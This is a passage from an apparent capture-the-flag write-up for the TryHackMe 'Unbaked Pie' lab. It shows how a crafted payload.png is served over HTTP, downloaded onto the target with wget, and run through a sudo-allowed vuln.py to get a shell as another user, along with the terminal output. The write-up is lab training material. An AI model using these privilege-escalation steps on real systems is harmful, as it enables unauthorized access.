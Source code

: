**Next, we can try to create an image that execute evil code:**

**`payload.png`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Unbaked-Pie/images/Pasted%20image%2020230113103856.png)

> Note: Since the `vuln.py` has imported `os` library, we can leverage that to spawn a Bash shell.

**Then, transfer our evil `payload.png`:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|10:16:45]
└> python3 -m http.server 80           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

ramsey@unbaked:~$ mv payload.png payload.png.bak
ramsey@unbaked:~$ wget http://10.9.0.253/payload.png
```

**After that, execute the payload:**
```shell
ramsey@unbaked:~$ sudo -u oliver /usr/bin/python /home/ramsey/vuln.py

--------- WELCOME! ---------
1. Calculator
2. Easy Calculator
3. Credits
4. Exit
----------------------------
Enter Options >> 2

Waiting to extract...
			         [■■■■■■■■■■]oliver@unbaked:~$ 
oliver@unbaked:~$ whoami;hostname;id;ip a
oliver
unbaked
uid=1002(oliver) gid=1002(oliver) groups=1002(oliver),1003(sysadmin)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:9d:2a:2d:05:b3 brd ff:ff:ff:ff:ff:ff
    inet 10.10.49.15/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::9d:2aff:fe2d:5b3/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:40:ad:94:49 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:40ff:fead:9449/64 scope link 
       valid_lft forever preferred_lft forever
5: vethce88f61@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether ce:10:16:87:86:01 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::cc10:16ff:fe87:8601/64 scope link 
       valid_lft forever preferred_lft forever
oliver@unbaked:~$ 
```